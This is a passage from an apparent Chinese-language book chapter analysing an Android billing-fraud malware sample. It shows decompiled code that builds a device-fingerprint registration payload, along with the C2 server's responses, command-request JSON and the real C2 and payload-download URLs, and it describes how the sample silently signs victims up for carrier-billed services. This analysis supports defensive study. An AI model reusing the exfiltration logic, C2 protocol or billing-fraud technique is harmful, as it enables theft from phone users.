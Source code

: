 ```
org.json.JSONObject v1_3 = new org.json.JSONObject();
try {
  v1_3.put("josiwo", v0_2.getPackageName());
} catch (java.io.IOException v0) {
  v0_3 = 0;
} catch (org.json.JSONException v0) {
}
v1_3.put("worikt", bhu8.cft6);
v1_3.put("zubfih", bhu8.xdr5);
v1_3.put("qredyb", android.os.Build$VERSION.SDK_INT);
v1_3.put("kdthit", 6);
nji9.nji9 v1_7 = new nji9.bhu8(0).vgy7.bhu8.vgy7("xn3o/in").toString(),
  bhu8.vgy7(v1_3.toString().getBytes()));
```

*列表 3-25：构建注册消息的 JSON 有效负载*

通过这些额外的上下文信息，我们可以看出，`josiwo`显然是恶意软件应用程序自己的包名，而`qredyb`是设备的 SDK 构建级别。字符串`kdthit`始终是数字 6，但它的含义尚不明确。也许它是一个版本代码，用于帮助客户端和服务器协商通信协议。

`worikt`和`zubfih`的含义不太明显，但通过追踪代码到这两个变量的赋值过程，可以理解它们的含义：`worikt`是设备的 SIM 卡运营商代码，由`TelephonyManager.getSimOperator`返回（20610 代码代表比利时的运营商 Orange）。`zubfih`的值则更复杂。根据设备的 API 级别，该值要么设置为应用安装时间的 Unix 时间戳，要么设置为设备的 Android ID。

#### ***处理注册响应***

成功注册请求后，命令与控制服务器会响应一个字符串，解密后得到清单 3-26 中显示的 JSON 对象。

```
{
  "bshwai": 4904276,
  "xjnguw": ""
}
```

*清单 3-26：新客户端注册的命令与控制服务器响应*

`bshwai`返回值的确切含义尚不清楚，但它可能是分配给客户端的 ID。使用 cURL 探测命令与控制服务器会返回相同的`bshwai`值，直到在`zubfih`请求字段中发送一个新的时间戳值。很可能，服务器使用安装时间戳来区分被感染的客户端，并基于此分配新的客户端 ID。由于客户端 ID 似乎是线性递增的，因此也有可能使用此值来估算感染设备的数量，以及新设备的感染速度。

第二个返回值`xjnguw`也非常有趣。在我们的测试中，它几乎总是为空。它似乎依赖于应用的包名，因为当我们将`josiwo`中的包名参数更改为例如*com.takela.message*（另一个同一恶意软件家族中的恶意软件样本的包名）时，服务器返回了一个非空值。返回的非空值像是*1_1487372418053478*，其中下划线前面的 1（或有时是 2）是第四阶段下载的版本标识符，下划线后的部分是用于初始化 Facebook SDK 的 Facebook 应用 ID，Facebook SDK 被打包在第四阶段中。第四阶段从*https://xn3o.oss-accelerate.aliyuncs.com/fbhx1*或*https://xn3o.oss-accelerate.aliyuncs.com/fbhx2*下载，具体取决于版本号。在本章的最后，我们将看看这些插件。

#### ***下载命令***

在与命令与控制服务器注册后，恶意软件会连接到*https://www.utansy.com/xn3o/ti*以检索要执行的命令。这些命令用于连接到一个关联网站，该网站将转发到一个支付注册页面。一旦页面加载完毕，下载的命令会开始与之交互，并在用户不知情的情况下进行注册。用户将在下一个电话账单中被收费，而引导用户注册的关联方将获得奖励。

发送到命令 URL 的请求有效载荷包含恶意软件收集的有关设备状态的信息。清单 3-27 显示了一个请求示例。

```
{
  "zubfih": "1646292590992_",
  "bshwai": 4904276,
  "eymbmw": true,
  "tffhhk":
  {
    "rktfht": false,
    "segdip": false,
    "elbcnf": "+3214137764",
    "dgebpf":
    [
      "sp@porst.tv",
      "@LambdaCube"
    ]
  }
}
```